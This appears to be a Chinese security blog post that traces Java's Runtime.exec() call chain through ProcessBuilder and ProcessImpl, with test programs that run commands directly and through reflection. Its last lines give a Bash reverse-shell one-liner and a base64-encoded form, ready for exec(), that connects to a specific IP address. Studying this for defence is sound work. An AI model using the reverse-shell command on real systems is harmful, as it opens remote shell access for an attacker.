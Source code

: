 # 前言

在java中我们经常用到`Runtime.getRuntime.exec(command)`去执行命令,但是代码逻辑到底是什么,到底是怎么实现的,今天就想来总结一下

# Runtime命令执行分析

java的Runtime类下有6个重载了的exec方法

![image-20211215085935735](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215085935735.png)

```
public Process exec(String command) throws IOException
public Process exec(String command, String[] envp) throws IOException
public Process exec(String command, String[] envp, File dir) throws IOException
public Process exec(String cmdarray[]) throws IOException
public Process exec(String[] cmdarray, String[] envp) throws IOException
public Process exec(String[] cmdarray, String[] envp, File dir) throws IOException
```

## 测试代码

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.Runtime;

public class RuntimeTest {
    public static void main(String[] args) throws IOException {
        //定义命令值
        String command = "whoami";
        //调用Runtime类
        Process p = Runtime.getRuntime().exec(command);//如果不是需要回显的命令,到这即可执行
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());//后面的代码主要是为了看回显
    }
}
```

## 实现过程

下个断点调试一下

跟进getRuntime()

![image-20211215085133466](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215085133466.png)

一个静态方法可以直接调用,返回了一个静态值即Runtime的实例化对象

每次调用getRuntime()方法都会实例化一个Runtime对象

再跟进exec看看

![image-20211215085433894](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215085433894.png)

非静态方法,需要实例化对象才能调用,刚好,getRuntime方法返回了应该实例化对象调用这里的exec方法

返回值调用了另外的exec方法,继续跟进

![image-20211215090215936](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215090215936.png)

来到Runtime的另外一个exec方法,继续跟进到return还要返回另外的exec方法,再次跟进

![image-20211215090604084](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215090604084.png)

这里new了应该ProccessBuilder对象并且调用了start方法,继续跟进start

在start方法中一路跟进,会调用ProccessImpl类的静态方法start

![image-20211215090847631](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215090847631.png)

在这个start的137行又new了应该ProccessImpl对象

![image-20211215091341488](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215091341488.png)

跟进ProccessImpl的构造函数

一路跟进到

![image-20211215091722660](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215091722660.png)

在这个地方执行了命令

**调用流程**

1. public Process exec(String command)
2. public Process exec(String command, String[] envp, File dir)
3. public Process exec(String[] cmdarray, String[] envp, File dir)
4. ProcessBuilder.start()
5. ProcessImpl.start()
6. new ProcessImpl
7. creat()

# 反射调用Runtime执行命令

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class ReflectionExec {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        Class cls = Class.forName("java.lang.Runtime"); //Runtime加载进内存
//        Constructor declaredConstructor = cls.getDeclaredConstructor(); //获取构造方法
//        declaredConstructor.setAccessible(true);  //暴力反射
//        Object o = declaredConstructor.newInstance(); //创建Runtime类
//        Method exec = cls.getMethod("exec", String.class); //获取exec方法，设置需要参数string类型参数
//        Process process = (Process) exec.invoke(o,command);   //执行exec方法，并传入calc.exe参数
        Object runtime = cls.getMethod("getRuntime").invoke(null);
        Process process = (Process) cls.getMethod("exec", String.class).invoke(runtime,command);
        System.out.println(process);
        InputStream is = process.getInputStream();    //获取输出的数据
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

可以用上面的代码反射调用Runtime来执行命令

# ProcessBuilder类

前面Runtime类执行命令的时候调用了ProcessBuilder类的start函数,那是不是就可以直接调用start来执行命令了

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class ProcessBuilderTest {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        ProcessBuilder pro = new ProcessBuilder(command);
        Process p = pro.start();
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

![image-20211215225238072](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215225238072.png)

# ProcessImpl类

同样的，Runtime类调用了执行命令的过程中调用了ProcessImpl类的start方法,那直接调用这个类的start方法也可以执行命令了

不过这个类并不是共有的

![image-20211215225537735](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215225537735.png)

所以我们只能通过反射去获取

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.*;
import java.util.Map;

public class ProcessImplTest {
    public static void main(String[] args) throws Exception{
        String[] command = {"calc"};
        Class Pro = Class.forName("java.lang.ProcessImpl");
        Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process p = (Process) method.invoke(null, command, null, ".", null, true);//静态方法,invoke不需要传入对象
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}

```

![image-20211215230900868](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211215230900868.png)





使用Bash来反弹shell时由于`Runtime.getRuntime().exec()`中不能使用管道符等Bash需要的方法，故需要进行一次base64编码：`bash -i >& /dev/tcp/vps/2333 0>&1`：

最后的命令应该是

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}
```


